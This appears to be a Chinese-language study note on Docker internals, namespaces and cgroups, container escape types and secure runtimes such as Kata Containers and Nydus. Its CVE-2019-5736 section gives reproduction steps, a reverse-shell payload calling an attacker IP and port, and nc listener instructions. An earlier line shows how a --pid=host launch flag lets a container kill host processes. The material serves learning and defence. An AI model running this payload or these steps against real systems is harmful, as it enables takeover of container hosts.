

# 容器逃逸与安全容器
## Docker运行流程
Docker由Docker-Client, dockerd, containerd, docker-shim, runc组成。


- docker-client：docker命令行，负责接收用户命令；
- dockerd: docker守护进程，监听请求并管理网络配置和存储卷资源；
- containerd: dockerd实际调用的还是containerd的api接口（grpc方式实现），containerd是dockerd和runc之间的一个中间交流组件;
- docker-shim: docker-shim是一个真实运行的容器的真实垫片载体，每启动一个容器都会起一个新的docker-shim的一个进程，通过指定容器id、buundle目录、运行时二进制来调用runc的api创建一个容器；
- runc:命令行工具端，他根据oci（开放容器组织）的标准来创建和运行容器；

**流程**：Docker CLI将run命令及参数通过REST API传给dockerd，dockerd根据请求拉取并验证镜像，之后将控制权交给containerd去创建容器，之后containerd设置容器环境（文件系统，网络）。然后，containerd会使用shim进程将容器的运行委托给runc创建并启动容器。容器运行时，containerd将监视容器状态并相应地管理生命周期。

## Namespace和Cgroup
### Namespace
Namespace将内核的全局资源进行封装，使每个Namespace有一份独立资源，不同进程在各自的Namespace内对同一种资源的使用不会相互干扰。Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。
| Namespace 类型 | 隔离的资源                                  | 作用描述                                                                 |
|---------------|--------------------------------------------|--------------------------------------------------------------------------|
| **IPC**       | System V IPC 和 POSIX 消息队列              | 隔离进程间通信机制（如信号量、共享内存、消息队列），防止跨容器干扰。               |
| **Network**   | 网络设备、协议栈、端口、路由表等             | 每个容器拥有独立的网络接口、IP 地址、防火墙规则等，实现网络隔离。                 |
| **Mount**     | 文件系统挂载点                              | 隔离文件系统挂载信息，使容器无法访问宿主机或其他容器的挂载点（如 `/proc`、`/sys`）。 |
| **PID**       | 进程 ID (PID)                              | 容器内只能看到自己的进程树，无法查看或操作宿主机或其他容器的进程。                  |
| **UTS**       | 主机名 (Hostname) 和域名 (NIS Domain Name) | 允许容器独立设置主机名，不影响宿主机或其他容器。                                |
| **User**      | 用户 ID (UID) 和组 ID (GID)                | 隔离用户权限，容器内 root 用户可被映射到宿主机非 root 用户（增强安全性）。  

部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

| 启动参数              | 影响的 Namespace       | 授予的权限或行为                          |
|-----------------------|------------------------|-------------------------------------------|
| `--cap-add=SYS_ADMIN` | 无直接绕过             | 允许容器执行 `mount` 等特权操作，可能导致文件系统挂载逃逸 |
| `--net=host`          | Network Namespace      | 容器直接使用宿主机的网络栈（共享网络接口、端口等）     |
| `--pid=host`          | PID Namespace          | 容器可看到宿主机上的所有进程                       |
| `--ipc=host`          | IPC Namespace          | 容器与宿主机共享进程间通信资源（如信号量、共享内存等）  |

示例：使用`docker run –it –pid=host --cap-add=CAP_KILL ubuntu /bin/bash`可以实现在容器中杀死宿主机的进程。

### Cgroup
Cgroup是内核提供的一种资源隔离的机制，可以实现对进程所使用的cpu、内存物理资源、及网络带宽等进行限制。还可以通过分配的CPU时间片数量及磁盘IO宽带大小控制任务运行的优先级。系统中的进程（任务）创建子进程（任务）时，该子任务自动成为其父进程所在cgroup的成员。在docker中，cgroup用来确保一个容器只能使用被分配的资源量，避免某个容器因为过度消耗资源而影响到其他容器或主机系统的稳定性。


图中task1分配到cgroup_2的内存资源，cgropu_3的cpu资源，其子进程task2和task3也最多只能使用cgroup_2的内存资源和cgropu_3的cpu资源。

在Docker中，默认情况下，没有对CPU和内存资源进行硬性限制，若要进行硬性限制，则在启动容器时需要，例如：
```
docker run -it --rm --memory=“512m” \
 --memory-swap=“1g” \
 --cpus=“1.5“ \ 
mycontainer
```

## 容器逃逸类型
容器逃逸指的是攻击者利用容器中的漏洞或配置错误，突破容器的隔离机制，从而访问宿主机或其他容器内的资源。
- （系统层）内核漏洞：指由于内核漏洞导致的容器逃逸问题，例如：如果宿主机的Linux内核存在安全漏洞，攻击者可能利用这些漏洞从容器内部执行恶意代码，从而获取宿主机上的权限；
- （服务层）软件设计不当：指由于运行时漏洞导致的容器逃逸问题，Docker是一个容器化平台，它包含了docker软件本身以及runc和containerd等核心组件，这些组件本身也可能存在漏洞，攻击者可以利用这些漏洞来进行容器逃逸。
- （用户层）特权模式与配置不当：指由于容器实例使用的危险配置、危险挂载导致的容器逃逸，例如：容器使用了不安全的卷挂载，或者容器以过高的权限运行，都可能被攻击者利用来实现容器逃逸；

### 服务层容器逃逸案例（CVE-2019-5736）
2019年2月11日，runC的维护团队报告了一个新发现的漏洞，SUSE Linux GmbH高级软件工程师Aleksa Sarai公布了影响Docker, containerd, Podman, CRI-O等默认运行时容器runc的严重漏洞CVE-2019-5736。漏洞会对IT运行环境带来威胁，漏洞利用会触发容器逃逸、影响整个容器主机的安全，最终导致运行在该主机上的其他容器被入侵。漏洞影响AWS, Google Cloud等主流云平台。
- 影响版本：docker version <= 18.09.2, runc <= 1.0-rc6
- 漏洞链接：https://github.com/Frichetten/CVE-2019-5736-PoC
- 复现方式：将Poc代码中main.go 文件中payload变量定义为`var payload="#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1"`(其中<ip>指攻击者机器的ip)，之后在受害者机器上编译执行main.go，然后在攻击者机器上开启nc监听，监听<port>端口，再次在受害者机器上进入或启动容器时，攻击者机器就可以拿到受害者机器的shell控制权；
- 漏洞原理：攻击者可以通过修改容器内部某个可执行文件的方式，获取到宿主机上 runc 可执行文件的文件句柄（file descriptor）。随后，攻击者可以利用该句柄对原始的 runc 文件进行覆盖操作，将其替换为一个受控的恶意文件；

POC代码解析：

1. `/bin/sh` -> `#!/proc/self/exe` 

    将shell变成指向当前进程可执行文件的链接，让host的runc进程执行自身

2. runc -> `#!/bin/bash \n bash -i >& /dev/tcp/<ip>/<port> 0>&1`

    将runc覆盖为反弹shell

3. 下次执行docker run/exec 时，就会使用runc二进制文件，执行攻击者的payload

## Kata Containers
Kata Containers项目最初由Hyper.sh的runV项目与Intel的Clear Container合并而来，并于2017年开源。它的核心思想是，为每一个容器运行一个独立虚拟机，从而避免其与宿主机共享内核。即使攻击者在容器内部成功利用了内核漏洞攻破内核，他依然被限制在虚拟机内部，无法逃逸到宿主机上。

和Docker一样，Kata Container1.0也包含containerd、containerd-shim，还额外包含的组件如下：
- kata-shim：kata容器的容器进程运行在虚拟机中，虚拟机和host之间是隔离的，container-shim无法监控到kata容器进程的生命状态，所以使用kata-shim进行中转；
- kata-runtime：负责调用底层虚拟化技术（如qemu）来启动虚拟机；
- kata-proxy：转发来自kata runtime的请求到VM的kata-agent；
- kata-agent：负责实际的容器生命周期管理和资源配置（创建新容器，调整资源配置）;

### Nydus镜像加速系统

传统的Docker镜像在分发和使用过程中会存在以下问题：
- 启动速度慢：由于需要下载并解压整个镜像层才能启动容器，导致容器启动时间长；
- 存储效率低下：某个文件在Upper层里被删除或修改，文件依然留在Lower层，它们仍然占用存储空间；
- 镜像与镜像之间存在重复数据：不同镜像文件不共享；

针对以上问题，Kata Containers 3.0提出了Nydus镜像加速系统，其核心思想为按需加载和共享重复块：
- 按需加载：采用"运行时按需获取"架构，容器启动时仅下载元数据（约30KB的bootstrap文件），当容器访问特定文件时，才从仓库下载对应的数据块（chunk）；
- 共享数据块：最小单位为数据块（chunk），可跨镜像共享基础层数据块。例如，若上传了一个Ubuntu镜像到远端仓库，之后想基于Ubuntu构建一个Python镜像和一个Nginx镜像，可以通过--base-bootstrap=bootstrap_xxx.json来引用远程Ubuntu镜像中的数据块chunks，之后进行新镜像的构建，在上传镜像时只上传新增的Chunks。

# 参考链接
* https://www.docker.com/blog/containerd-vs-docker/
* https://www.cnblogs.com/xiaozi/p/13423853.html
* https://www.thebyte.com.cn/container/CRI-in-Kubernetes.html
* https://www.lixueduan.com/posts/docker/03-container-core/
* https://juejin.cn/post/7096115284875935781
* https://www.infoq.cn/article/dgbkj0dwftxeusp64dk9
* https://www.ctyun.cn/developer/article/531766025101381

